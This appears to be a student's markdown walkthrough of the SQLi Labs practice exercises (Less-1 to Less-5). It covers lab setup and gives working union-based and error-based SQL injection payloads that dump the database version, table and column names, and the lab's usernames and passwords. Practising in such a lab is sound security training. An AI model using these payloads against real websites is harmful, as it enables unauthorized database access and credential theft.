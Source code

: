 # **SQLi Labs**

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > ````sudo apt install apache2````
install mysql by > ````sudo apt-get install mysql-srver````
install php7
git clone the repository of the lab and start all the services.

### **LESS1**

The website says,Please input the ID as parameter with numeric value.
So we can input ```?id=1 or 2,3,4,5.....```
when we put ' we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by -- - or other comments in sql language.
We can dump contents

 payloads to dump
 We can get version of the server by using /?id=-1' union select 1,version(),3--+
 We can get databasename of the server by using /?id=-1' union select 1,database(),3--+  databasename = security
 Going to the terminal and going to mysql. If we type show databases; it shows databases
 Then we can security also. We can find more details using "use security we can go into the database.
 Using show tables; we can see the tables. For looking into the tables desc emails; and so on...
 
#LESS2
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - doesn't work.
So we put ' before the 1 and change it as ?id='1' as payload.
Now we can comment it ?id='1' -- - 
Now we can dump contents using the payloads.

#payloads to dump
to find column_name ?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
We have more payloads that can we do and get contents of database

#LESS3
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - nor ?id='1'-- - doesn't work.
So we put ) before the ' and change it as ?id=1)' as payload.
No we can comment it ?id=1)'-- -
Now we can dump contents using payloads

#payloads to dump
to find data /?id=-1') union select 1,group_concat(username),3 from users
We have more payloads that can we do and get contents of database

#LESS4
The website says,Please input the ID as parameter with numeric value.
We have to use ') ' as payload 
Now can comment it using ?id=1' ")-- -
Now we can dump contents using payloads

#payloads to dump 
?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users
We have more payloads that can we do and get contents of database.

#LESS5
In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use rand(),floor(),count() to get error

#payloads to dump
this will get database /?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get table names /?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get columns /?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

#contents of database
1.databasename = security
2.tables = emails,referers,uagents,users
3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
